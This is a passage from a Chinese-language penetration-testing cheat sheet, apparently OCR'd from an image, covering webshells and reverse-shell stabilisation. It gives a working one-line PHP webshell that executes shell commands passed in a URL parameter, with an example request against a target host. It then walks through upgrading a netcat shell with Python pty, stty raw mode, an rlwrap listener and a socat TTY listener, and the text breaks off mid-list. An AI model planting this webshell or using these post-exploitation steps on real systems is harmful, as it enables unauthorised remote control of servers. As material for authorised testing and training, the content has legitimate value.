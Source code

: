 ### 6. Webshell
#### 概述
Webshell是用Web服务器支持的语言（如PHP, ASP, JSP）编写的脚本，上传到目标Web服务器后，允许攻击者通过浏览器或其他HTTP客户端远程执行系统命令或管理文件。
#### 特点
-   隐蔽性：可以伪装成正常文件嵌入Web应用中。
-   便捷性：通过HTTP/S协议访问，易于穿透防火墙。
#### 示例 (简单PHP Webshell)
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
// 用法: http://target.com/webshell.php?cmd=whoami
```
#### 资源
-   Kali Linux中预置了多种Webshell：`/usr/share/webshells/`

### 7. Shell稳定性与增强
#### 概述
原始的Netcat Shell通常功能有限（例如，`Ctrl+C`会断开连接，不支持Tab补全、历史记录，无法运行`vim`等全屏应用）。需要进行稳定化处理以获得更好的交互体验。
#### 方法
1.  **Python PTY升级 (常用)**
    *   **步骤1:** 在获得的原始Shell中，检查并使用Python生成一个更好的Shell：
        ```bash
        python -c 'import pty; pty.spawn("/bin/bash")'
        # 或 python3 -c 'import pty; pty.spawn("/bin/bash")'
        ```
    *   **步骤2:** 设置终端类型 (如果需要，以支持clear等命令):
        ```bash
        export TERM=xterm
        ```
    *   **步骤3:** 背景化当前Shell并配置本地终端：
        *   按 `Ctrl+Z` 将当前Shell放入后台。
        *   在 *攻击者* 的终端执行：`stty raw -echo; fg`
        *   按回车，Shell恢复到前台，现在`Ctrl+C`会传递给目标进程而不是断开连接，Tab补全和箭头键也可能工作得更好。
    *   **步骤4 (可选):** 修复终端大小：
        *   在攻击者另一个终端执行 `stty -a`，记下 `rows` 和 `columns` 的值。
        *   在稳定化的Shell中执行：
            ```bash
            stty rows <number>
            stty cols <number>
            ```
    *   **恢复:** 如果终端显示混乱，可尝试 `reset` 命令。

2.  **使用 `rlwrap`**
    *   在启动监听器时使用 `rlwrap`: `rlwrap nc -lvnp <PORT>`
    *   这可以立即提供历史记录和基本编辑功能。
    *   要获得完整的稳定性（如`Ctrl+C`），仍需执行上述Python PTY升级和`stty raw -echo; fg`步骤。

3.  **使用 `socat` (强大稳定)**
    *   `socat` 可以创建更稳定的TTY Shell，尤其是在Linux目标上。
    *   **攻击者监听 (创建稳定TTY):**
        ```bash
        socat file:`tty`,raw,echo=0 tcp-listen:<PORT>
        # file:`tty`: 将当前终端作为文件。
        # raw: 禁用规范行处理。
        # echo=0: 关闭本地回显。